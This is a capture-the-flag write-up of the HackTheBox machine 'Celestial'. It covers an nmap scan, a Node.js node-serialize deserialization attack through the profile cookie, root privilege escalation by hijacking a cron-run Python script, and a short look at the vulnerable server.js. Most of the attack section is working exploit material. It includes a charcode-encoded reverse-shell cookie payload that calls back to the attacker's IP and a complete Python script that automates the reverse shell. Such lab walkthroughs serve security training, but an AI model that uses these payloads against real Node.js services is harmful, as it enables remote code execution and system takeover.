

Celestial was a Medium Level Box from HackTheBox with Linux OS. For me it was an extremelly easy box, since we can exploit it with just setting properly one cookie and the nodejs server serialize and execute it.

The privelege escalation is trough cron, which executes a python script each 5 minutes.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.85
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 3000

Once we found just the port 3000 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.85 on the browser.


We see on the source code something interesting


It's a node js app, as the nmap shows me

Once we hit F5, the page shows something different

And we get it in burp


It shows: `Hey Dummy 2 + 2 is 22` and set a cookie


The cookie is Base64 and URL Encoded

If we try to change the code


It accepts.

# Nodejs Deserealization

It seems to be a tipical Deserealization attack. Because it's being passed a string as cookie and we can manipulate it.

Looking arround on the internet we found a blog (the first one) which explain it better


[NodeJS Deserealization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)


We download the [NodeJS Shell GitHub](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

And start crafting our payload


We can see what it is going to be executed on the eval function


Now let’s generate the serialized payload and add IIFE brackets () after the function body and convert to base64

```js
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,50,48,34,59,10,80,79,82,84,61,34,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```


Now, just put on the Cookie and open our nc listener


It shows an error message, but we got the reverse shell


Ok, now let's automate it


auto_rev.py

```py
#!/usr/bin/python3
# Date: 2021-10-12
# Exploit Author: 0x4rt3mis
# Hack The Box - Celestial
# Auto exploit from NodeJS Deserealization
# https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

import argparse
import requests
import sys
import base64
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting up the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to mount the payload
def mountPayload(lhost,lport):
	payload = ''
	payload += "var net = require('net');\n"
	payload += "var spawn = require('child_process').spawn;\n"
	payload += "HOST='%s';\n" %lhost
	payload += "PORT='%s';\n" %lport
	payload += "TIMEOUT='5000';\n"
	payload += "if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }\n"
	payload += "function c(HOST,PORT) {\n"
	payload += "    var client = new net.Socket();\n"
	payload += "    client.connect(PORT, HOST, function() {\n"
	payload += "        var sh = spawn('/bin/sh',[]);\n"
	payload += "        client.write('Connected!');\n"
	payload += "        client.pipe(sh.stdin);\n"
	payload += "        sh.stdout.pipe(client);\n"
	payload += "        sh.stderr.pipe(client);\n"
	payload += "        sh.on('exit',function(code,signal){\n"
	payload += "          client.end('Disconnected!');\n"
	payload += "        });\n"
	payload += "    });\n"
	payload += "    client.on('error', function(e) {\n"
	payload += "        setTimeout(c(HOST,PORT), TIMEOUT);\n"
	payload += "    });\n"
	payload += "}\n"
	payload += "c(HOST,PORT);"
	return payload

# Function to encode it
def charencode(string):
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

def sendRequest(rhost,nodejs_payload):
	exploit = '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(%s))}()"}' %nodejs_payload
	exploit = base64.b64encode(bytes(exploit, 'utf-8'))
	exploit = exploit.decode('utf-8')
	url = "http://%s:3000/" %rhost
	cookies = {"profile": "%s" %exploit}
	r.get(url, cookies=cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    
    '''Here we call the functions'''
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's mount the payload
    # Let's set the nodejs payload
    nodejs_payload = charencode(mountPayload(lhost,lport))
    # Let's trigger the reverse
    sendRequest(rhost,nodejs_payload)
    
if __name__ == '__main__':
    main()
```

# sun -> root

Now, let's start the privilege escalation to get a root shell on this box

We run [pspy](https://github.com/DominicBreuker/pspy) to get what is running as cron on this box


After some minutes it comes to our terminal


So, hijack that file. Create a python rev shell one liner and put there.


And wait for the reverse shell when it become executed and we become root


# Code Analysis

Now let's perform a small code analysis on `server.js` which is running on the server

```js
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

What we can see here? When the cookie is not seted, it sends a 404 error, when it is seted it shows a different message. The function `serialize` is vulnerable and executes a eval().

We can see the crontab too, executing the script each 5 minutes!


